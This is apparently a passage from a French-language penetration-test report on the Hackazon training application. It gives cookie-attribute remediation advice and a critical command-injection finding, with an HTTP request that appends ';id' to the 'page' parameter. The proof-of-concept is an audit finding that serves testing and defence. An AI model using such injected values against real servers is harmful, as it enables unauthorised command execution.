 
*Remediation*

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|}
\hline
\multicolumn{3}{|>{\columncolor{cyan}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-07 : Cookie de Session sans Attributs Secure, HttpOnly, et SameSite}}} \\ \hline
\textbf{Complexité estimée : Faible} & \textbf{Travail/coût estimé : Faible} & \textbf{Priorité estimée : 3 / 4} \\
\hline
\multicolumn{3}{|p{16.30cm}|}{
    Il est recommandé de configurer les cookies de session avec les attributs `Secure`, `HttpOnly`, et `SameSite`. L'attribut `Secure` garantit que les cookies ne sont envoyés que via une connexion HTTPS, `HttpOnly` empêche les scripts côté client d'accéder aux cookies, et `SameSite` empêche les attaques Cross-Site Request Forgery (CSRF).
} \\
\hline
\end{tabular}
\end{table}



#### Validation des entrées utilisateurs

##### Injection de commandes

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{3cm}|}
\hline
\multicolumn{4}{|>{\columncolor{red}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-06 : Injection de commandes}}} \\ \hline
\rowcolor{gray!30}
\textbf{\textcolor{black}{État}} & \textbf{Impact} & \textbf{Difficulté d'exploitation} & \textbf{Sévérité} \\ \hline
\textbf{Avérée} & \textbf{Critique} & \textbf{Facile} & \textbf{4 / 4} \\
\hline
\end{tabular}
\end{table}

En analysant l'URL `https://hackazon.trackflaw.com/account/documents?page=terms.html;id`, on constate que le paramètre `page` est vulnérable à une injection de commandes système. Cette vulnérabilité permet à un attaquant d'exécuter des commandes directement sur le serveur.

---

**Requête HTTP**

```
GET /account/documents?page=terms.html;id HTTP/2
Host: hackazon.trackflaw.com
Cookie: PHPSESSID=XXXXXXXXXXXXXXXXXXXXXXXX; visited_products=%2C1%2C208%2C15%2C101%2C81%2C21%2C
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```